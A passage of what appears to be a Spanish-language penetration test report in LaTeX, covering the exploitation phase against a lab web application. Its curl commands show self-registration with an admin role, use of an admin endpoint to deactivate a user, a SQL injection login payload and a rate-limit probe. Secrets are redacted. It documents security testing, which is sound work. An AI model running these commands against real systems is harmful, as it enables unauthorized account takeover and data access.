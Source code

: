 \subsection{PTES 05 - Exploitation}\label{ptes-05---exploitation}

Entorno: Kali WSL. Estado: ejecutado y completado.

Registro anonimo con rol admin, acceso al endpoint administrativo y limpieza. Los cuerpos, la contrasena y el JWT quedan redactados:

\begin{tcolorbox}[codebox]
\begin{Verbatim}[fontsize=\scriptsize,breaklines=true,breakanywhere=true]
curl -sS -i -H "Content-Type: application/json" --data '<REGISTER_JSON_REDACTED>' "$TARGET_URL/api/auth/register"
curl -sS -i -H "Content-Type: application/json" --data '<LOGIN_JSON_REDACTED>' "$TARGET_URL/api/auth/login"
curl -sS -i -H "Authorization: Bearer <JWT_REDACTED>" "$TARGET_URL/api/usuarios"
curl -sS -i -X PATCH -H "Authorization: Bearer <JWT_REDACTED>" -H "Content-Type: application/json" --data '{"activo":false}' "$TARGET_URL/api/usuarios/<LAB_USER_ID>/activo"
\end{Verbatim}
\end{tcolorbox}

SQLi controlada en login:

\begin{tcolorbox}[codebox]
\begin{Verbatim}[fontsize=\scriptsize,breaklines=true,breakanywhere=true]
SQLI_BODY=$(jq -n --arg email "' OR 1=1 -- -" --arg password "invalid-lab-value" '{email:$email,password:$password}')
curl -sS -i -H "Content-Type: application/json" --data "$SQLI_BODY" "$TARGET_URL/api/auth/login"
unset SQLI_BODY
\end{Verbatim}
\end{tcolorbox}

Revision y prueba dinamica del rate limit:

\begin{tcolorbox}[codebox]
\begin{Verbatim}[fontsize=\scriptsize,breaklines=true,breakanywhere=true]
rg -n "windowMs|max|standardHeaders|legacyHeaders" "$APP_ROOT/backend/src/middlewares/rateLimitMiddleware.js"
cd "$EVIDENCE_ROOT/ptes/05-exploitation"
f=-12E05-05_rate-limit-dynamic.txt
printf 'timestamp=%s\n' "$(date -Is)" > "$f"
for i in 1 2 3 4; do printf '\n--- intento %s ---\n' "$i" >> "$f"; curl -sS -D - -o /dev/null -w '\nHTTP_STATUS:%{http_code}\n' -H "Content-Type: application/json" --data '<INVALID_LAB_LOGIN_JSON>' "$TARGET_URL/api/auth/login" >> "$f"; sleep 1; done
cat "$f"
\end{Verbatim}
\end{tcolorbox}

